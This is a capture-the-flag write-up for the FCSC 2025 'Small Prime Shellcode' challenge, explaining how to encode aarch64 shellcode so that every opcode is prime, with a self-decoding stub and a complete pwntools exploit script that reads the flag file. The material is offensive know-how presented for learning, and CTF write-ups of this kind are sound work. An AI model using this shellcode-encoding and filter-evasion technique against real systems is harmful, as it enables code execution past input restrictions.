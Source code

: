 +++
title = "FCSC 2025 | Small Prime Shellcode"
+++

## Checksecs
```
[*] '/home/botman/Documents/challenges/FCSC/small_prime_shellcode/small-primes-shellcode'
    Arch:       aarch64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

## TL;DR
Constraints: only prime opcodes

Solution:
- Encode shellcode to use only prime opcodes
- Generate a decoder
- Send decoder + encoded shellcode

## Writeup

For this challenge, the only constraint for our shellcode was to use **only 6 prime opcodes**.

To create this shellcode, I started by searching through the [ARM documentation](https://developer.arm.com/documentation/ddi0602/2025-03?lang=en). I found some small results, but discovered a terrible truth: with this constraint, it was **impossible** to change the value of `x8`, and since `x8` stores the [syscall number](https://arm64.syscall.sh/), it was impossible to make any syscalls this way.

> <span style="color:#316dca">**ⓘ NOTES**</span>
>
> Changing the value of `x8` was impossible because, in ARM, the destination register is always located at the end of the opcode. All instructions allowing a write to `x8` ended with an 8 and, therefore, weren't prime numbers.

After some tears and a little depression, I reconnected my brain and started generating a **2.7GB** file containing all possible opcodes—and finally found a solution.

![meme](/images/small-primes-shellcode/meme.jpg)

Basically, I wrote a shellcode that restores the payload during execution. To ensure only prime opcodes, I:
1. Found the next prime number for each opcode in the payload.
2. Calculated the difference between the two.
3. During execution, subtracted the difference from the prime number to recover the original payload.

I did a lot of `grep` to find what I needed. I finally selected these instructions:
```asm
adds w1, w1, #4
ldr w5, [x0, w1, uxtw]

add w5, w5, #<number>
sub w5, w5, #<number>

adds w23, w23, #25
subs w23, w23, #0
str w5, [x0, w23, uxtw]
```

What do they do?

First, I use `w1` and `w23` as counters. They allow me to load the encoded payload into `w5` using `ldr`, and then store the decoded one back with `str`. Between these two, I apply an `add` and a `sub` on the opcode prime number stored in `w5`.

You may ask why I use both `add` and `sub` instead of just `sub`. This is because of the first constraint: I can't `add` and `sub` arbitrary numbers. So I extracted all possible opcode values and wrote them into `registers.py`. With these values, I created a small function that takes a target number and a list of available `add/sub` values, and returns the operations needed.

All I had to do was put everything into an exploit and boom:

```python
from pwn import *
from sympy import nextprime
import registers

CHALL = "./small-primes-shellcode"

def opps(target, add_list, sub_list):
    for add in add_list:
        sub_target = add - target
        sub_idx = sub_list.index(sub_target) if sub_target in sub_list else None
        if sub_idx:
            sub = sub_list[sub_idx]
            return [add, sub]
    return None

def encode_shellcode(shellcode):
    payload = b''
    conv_table = []
    shellcode = bytes(asm(shellcode))

    for i in range(0, len(shellcode), 4):
        opcode = int.from_bytes(shellcode[i:i+4][::-1])
        prime = nextprime(opcode)

        payload += p32(prime)
        conv_table.append(prime - opcode)

    return payload, conv_table

def gen_decoder(conv_table):
    code = ''
    for diff in conv_table:
        w5 = opps(-diff, registers.a_w5, registers.s_w5)

        code += '''
        adds w1, w1, #4
        ldr w5, [x0, w1, uxtw]

        add w5, w5, #%i
        sub w5, w5, #%i

        adds w23, w23, #25
        subs w23, w23, #21
        str w5, [x0, w23, uxtw]
        ''' % (w5[0], w5[1])

    return bytes(asm(code))

def gen_prefix(length):
    w1 = opps(length+16, registers.a_w1, registers.s_w1)
    w23 = opps(length+16, registers.a_w23, registers.s_w23)

    prefix = '''
    adds w1, w1, #%i
    subs w1, w1, #%i

    adds w23, w23, #%i
    subs w23, w23, #%i
    ''' % (w1[0], w1[1], w23[0], w23[1])

    return bytes(asm(prefix))

def exploit(io, elf):
    payload, conv_table = encode_shellcode(shellcraft.cat("flag.txt"))
    decoder = gen_decoder(conv_table)
    prefix = gen_prefix(len(decoder))

    payload = flat(
        prefix,
        decoder,
        b'\x61\x02\x00\xd4',
        payload,
    )
    io.info("full payload size: %i bytes" % len(payload))

    padding = b"\x0b\x00\x00\x00"*int((0x400-len(payload))/4)
    io.send(payload + padding)
    flag = io.recv().decode()

    return flag
```


[download here](/exploits/small-primes-shellcode.py)

**Written by *0xB0tm4n***

